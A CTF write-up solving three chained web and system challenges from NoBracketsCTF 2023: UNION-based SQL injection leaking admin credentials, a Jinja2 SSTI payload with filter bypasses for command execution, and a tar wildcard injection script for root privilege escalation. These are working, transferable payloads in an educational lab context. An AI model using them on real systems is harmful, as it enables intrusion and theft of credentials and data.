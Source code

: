 ```yaml
---
author: Drahoxx
title: NoBracketsCTF 2023 -- Born To Be
description: This write-up is from 3 web/system challenges from the NoBracketsCTF 2023.
slug: born-to-be-web
date: 2024-08-25 00:00:00+0000
image: assets/born-to-be.jpg
categories:
    - Web
tags:
    - NoBrackets
    - CTF
    - WriteUp
    - Web
    - System
---
```


# NoBrackets2023 -- Born To be
NoBracketsCTF is a CTF for high-schoolers, this challenge was part of the finale.

The challenge is open-source: https://github.com/nobrackets-ctf/NoBracketsCTF-2023/tree/main/finale/Web/BornToBeAdmin/infra

Just run `./run.sh` and visit http://localhost:5000/ to access the challenge.

## Born To be admin 1/3

**Description:**
```
Do you like red-pandas? I love 'em!

Your goal is to become administrator of the website.

Author: [Drahoxx](https://twitter.com/50mgDrahoxx)
```

The first vulnerability is an SQLi in the search bar. Which means we will be able to leak data using the search bar.
We will try to uncover the admin's credentials.

![First look](assets/first_look.png)

![Login form](assets/login.png)


### Get tables and collums name
#### Table name
We can use Payload All the Things to help us :
Under `Sqlite` > `Integer/String based - Extract table name` we can find the following [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#integerstring-based---extract-table-name) :

`SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'`

Which we arrange into :
`aaaaa' UNION SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -`

We get : `users,data`

#### Collumns name
As we know there is a `users` table, we can try and leak the [collumns names](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#integerstring-based---extract-column-name):
`aaaaaa' UNION SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'-- -`

We get : `CREATE TABLE users ( id INTEGER PRIMARY KEY AUTOINCREMENT, username VARCHAR(100) NOT NULL, password VARCHAR(100) NOT NULL, is_admin BOOLEAN NOT NULL DEFAULT 0 )`

So the table looks like : | id (int) | username (str) | password (str) | is_admin (bool) |

We can start uncovering the admin's credentials

### Get admin's username
`' UNION SELECT username FROM users WHERE is_admin=true-- -`

You get : `redpanda-master`

### Get user's password
`' UNION SELECT password FROM users WHERE is_admin=true-- -`

![User Password](assets/password.png)


You get : `61983636aae8819f9a94b39bd0e6219d2212f0bcc37bb11032b559d6df26b07f`
Which is part of rockyou and can be cracked using https://crackstation.net/
The password is `redpandas4ever`

### Login to the admin's account
We use the login form to login :
`redpanda-master`
`redpandas4ever`

![Admin panel](assets/admin.png)


> NBCTF{Y0u're_Th3_TrU3_redpanda-master_You've_Been_B0rn_T0_B3_An_Adm1n}

## Born to be user 2/3

**Description:**
```
You became admin of the website. Now is time to become user again!

RCE and read content of `flag.txt`.

Author: [Drahoxx](https://twitter.com/50mgDrahoxx)
```

In this part the vulnerability is an ssti on the admin panel, the goal is to get a shell or at least RCE.

### Discovering the SSTI
When inputing `{{7*7}}` in the text box, we get the following result : `Hello, redpanda-master. You searched for the username 49, here is your results :`

We can see the 49, so our ssti is working, let's exploit it.

![Simple SSTI](assets/simple-ssti.png)


### Filters
There is two small filters on this ssti : `'`, `.` and `_` are banned.
We can see it when inputing `.`, we get : `Error : . _ and ' are filtered to avoid interfering with sql.`

### Exploit
We can use payload all the things once again to start our payload : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#exploit-the-ssti-by-calling-ospopenread

We will use podalirius' payload because it's the shortest :
`{{ lipsum.__globals__["os"].popen('id').read() }}`

We can see there is `.`, `'` and `_` in the payload we got to remove :

1. Removing '
	We can use double quote (") instead of single ones (')
2. Removing .
	We can use `|attr()` instead of `.` in jinja2
3. Removing _
	We can encode `_` in `\x5f`
4. Removing [ because it doesnt work with attr
	We can use the function `get` instead

Final payload : `{{lipsum|attr("\x5f\x5fglobals\x5f\x5f")|attr("get")("os")|attr("popen")("cat flag\x2etxt")|attr("read")()}}`

![Final SSTI](assets/nice-ssti.png)

> NBCTF{Fr0m_Adm1n_0n_W3bSite_T0_Us3r_0n_S3rver_SSTIs_are_FUN!}

## Born To be Root 3/3

**Description:**
```
Wp RCE! Now is time to become root.

Flag is located in `/root`.

Author: [Drahoxx](https://twitter.com/50mgDrahoxx)
```

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/tar-wildcard-injection-privesc/

```sh
echo -e \"#!/bin/bash\\ncat /root/* > result\" > shell\x2esh
echo \"\" > \"--checkpoint-action=exec=sh shell\x2esh\"
echo \"\" > --checkpoint=1
## Wait one minute
ls -la
## If there is result, you can cat it.
cat result
```
We get `NBCTF{You&#39;ve_Really_Becomed_Th3_R3d_Panda_And_Red_Team_Master!}` which translates to:

> NBCTF{You've_Really_Becomed_Th3_R3d_Panda_And_Red_Team_Master!}

